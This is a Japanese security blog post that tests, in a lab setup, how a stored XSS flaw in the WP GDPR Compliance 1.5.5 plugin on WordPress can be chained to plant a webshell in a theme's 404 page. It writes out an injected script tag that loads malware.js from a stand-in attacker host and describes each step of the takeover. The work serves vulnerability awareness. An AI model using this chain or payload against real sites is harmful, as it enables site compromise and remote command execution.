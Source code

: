 <div style="text-align:center;">[f:id:motikan2010:20210611234207p:plain]</div>

<div class="contents-box"><p>[:contents]</p></div>

## TL;DR

- WordPressで構築したサイト で XSS から RCE につなげる
  - そのために Webshell を配置

## はじめに

　2021年5月7日にECサイトを構築できるソフトウェアである EC-CUBE にXSSの脆弱性があると公表されました。  

[https://www.ec-cube.net/news/detail.php?news_id=383:embed:cite]

　驚くことにこのXSSの脆弱性は既に悪用され、攻撃を受けたサイトではクレジットカード情報の漏洩が確認されたとのこと。

　この件と WordPress にどのような関係があるのかというと、<span class="m-y">WordPressに導入しているプラグインに XSS が存在している場合に EC-CUBE のときと同様に Webshell を配置することができるかどうかの検証</span>を本記事では行います。

　EC-CUBE が標的となった事例は以下の記事が参考になります。  
[https://blog.trendmicro.co.jp/archives/27875:embed:cite]  

<figure class="figure-image figure-image-fotolife" title="「不正注文」で国内オンラインショップサイトを侵害する攻撃キャンペーン「Water Pamola」 | トレンドマイクロ セキュリティブログ">[f:id:motikan2010:20210611124346j:plain]<figcaption style="font-size:0.7em;">「不正注文」で国内オンラインショップサイトを侵害する攻撃キャンペーン「Water Pamola」 | トレンドマイクロ セキュリティブログ</figcaption></figure>


　本記事では、実際にある WordPress プラグインに発見された XSS を使って Webshell を配置するまでの流れを説明をしていきます。  

<figure class="figure-image figure-image-fotolife" title="Webshell が配置されるまでの流れ">[f:id:motikan2010:20210611133416p:plain]<figcaption style="font-size:0.7em;">Webshell が配置されるまでの流れ</figcaption></figure>

## 検証

　今回の検証環境は以下のとおりです。  

WordPressのバージョンが異なると記述してあるスクリプトがうまく動かない可能性があります。

| ソフトウェア名 | バージョン | 備考|
| - | - | - |
| WordPress | 5.7.2 (2021年6月11現在最新) | - |
| WP GDPR Compliance |1.5.5 | XSSの脆弱性があるバージョン |

### ①【管理者】脆弱性が存在しているプラグインのインストール

　この検証の前提として、WordPressサイトに認証不要のXSSの脆弱性がある必要があります。  

　WordPressのプラグインは日々脆弱性が発見されています。その中から本検証で利用できそうなものを探し、脆弱性が修正されていないバージョンのプラグインをインストールします。

　今回は「WP GDPR Compliance < 1.5.6 - Unauthenticated Stored Cross-Site Scripting (XSS) Security Vulnerability」の脆弱性を利用します。

[f:id:motikan2010:20210611030331p:plain:w700]  
[WP GDPR Compliance < 1.5.6 - Unauthenticated Stored Cross-Site Scripting (XSS) Security Vulnerability](https://wpscan.com/vulnerability/69655879-9fd5-49a3-96ce-81e43b8d8438)

　脆弱性の説明には「認証不要で管理画面にXSSできる」と記載がありますので、本検証にはうってつけの脆弱性です。  

　このプラグインに興味がある方はググってみてください。日本語の記事もあり、アクティブインストール数も20万以上もあることから人気なプラグインであることがわかります。  


　そんな感じで WP GDPR Compliance をインストールしました。バージョンも 1.5.5 であることが確認できます。  

[f:id:motikan2010:20210611102435p:plain:w700]  

　次に脆弱性の検証に必要なプラグインの設定を行います。WP GDPR Compliance の設定画面で下画像の赤枠のよう設定します。  
　この設定を行うことによって、後に埋め込まれる JavaScript の項目が表示されるようになります。

[f:id:motikan2010:20210611030226p:plain:w700]

　 Requests タブを表示します。  
インストール直後は何もデータが無いですが、後々この画面に悪意ある JavaScript が埋め込まれます。  

[f:id:motikan2010:20210611030259p:plain:w700]  

　これで準備は環境です。つまり脆弱なサイトの完成となります。  

### ②【攻撃者】管理画面にスクリプトの埋め込み (XSS)

　次は攻撃者側の準備です。  

　まず標的となるサイトの管理画面上で読み込ませたい JavaScript ファイルを作成します。  

　このスクリプトの主な処理内容は以下のとおりです。  

- テーマの編集画面からセキュリティトークンの取得
- system関数を用いたWebshellを404ページに埋め込むためのリクエストを送信

　検証では `malware.js` のファイル名で保存しているので、XSSで script タグを埋め込む場合はこのファイル名を参照するようにします。  

[f:id:motikan2010:20210611031722p:plain:w700]

　まずプラグインのXSSを再現させるためにはセキュリティトークンが必要になりますが、サイトトップのHTML内にあります。  

[f:id:motikan2010:20210611030251p:plain:w600]  

　取得したセキュリティトークンを用いて以下のように標的となるサイトにリクエストを送信します。  

[f:id:motikan2010:20210611030256p:plain:w600]  

　攻撃に成功すると`<script src=http://attacker.example.com:9000/malware.js><script>` がサイト管理画面に挿入されます。  

　管理画面にタグが埋め込まれるため攻撃者側からタグの有無は確認できません。  

　ひとまず404ページを確認してみます。Webshell が埋め込まれる前は下画像の状態です。  

[f:id:motikan2010:20210611030241p:plain:w600]  
 

### ③【管理者】悪意あるJavaScriptの実行

　サイト管理者は「匿名化リクエストの管理画面」を確認したとします。  

[f:id:motikan2010:20210611032334p:plain:w600]  

　ブラウザの表示上は特に異変は何もなさそうですが、この画面のHTMLソースコードを確認してみます。

[f:id:motikan2010:20210611030310p:plain:w700]  

　攻撃者によって scriptタグが埋め込まれており、攻撃者のXSSスクリプトサーバ上の`malware.js`の読み込みが行われていることが確認できます。  

　JSファイルの処理内容は先に説明してある通り、webshell を配置するリクエストを送信する処理でした。  
そのためこのファイルが読み込まれた時点で以下のリクエストが送信されていました。  

[f:id:motikan2010:20210611030326p:plain:w700] 

　ステータスコードは200で返ってきていますので、テーマ編集画面から取得したセキュリティトークンの検証も問題なく終え、テーマ編集処理が成功したことが分かります。（サイト管理者からすれば成功してしまった・・・）

　念のためテーマ編集画面から404ページのソースコードを確認してみましたが、やはり勝手に Webshell が埋め込まれていました。  

[f:id:motikan2010:20210612172133p:plain:w700]


### ④【攻撃者】Webshellの起動

　そして 404ページは何らかのエラーが表示されるようになりました。  
system関数に値を渡せとありますので、無事 webshell の配置することができました。

[f:id:motikan2010:20210611102018p:plain:w700]

　任意のコマンドが実行できることも確認できました。

[f:id:motikan2010:20210611032452p:plain:w700]

　攻撃は成功したようです。

　今回は webshell 配置をしましたが、管理画面での操作はほとんどできそうです。攻撃者が指定したプラグインのインストール・有効化などもできそうです。（※確認はしていません）

　テーマの`404.php`ではなく`functions.php`を書き換えることで 404ページ以外にも影響を与えることも可能そう。

## まとめ

　XSS経由で管理者の操作をする攻撃は今後増えていきそう。  

　対策もなかなか難しそうな問題とも思ったり...。

　Webshell に改ざんした時に駆除されたり。  
(でも実際のWebshellは複雑で検知されないものもあるので、スキャンツールに頼りすぎないように)  
[https://twitter.com/motikan2010/status/1403036189205032961:embed]

## 更新履歴

- 2021年6月11日 新規作成
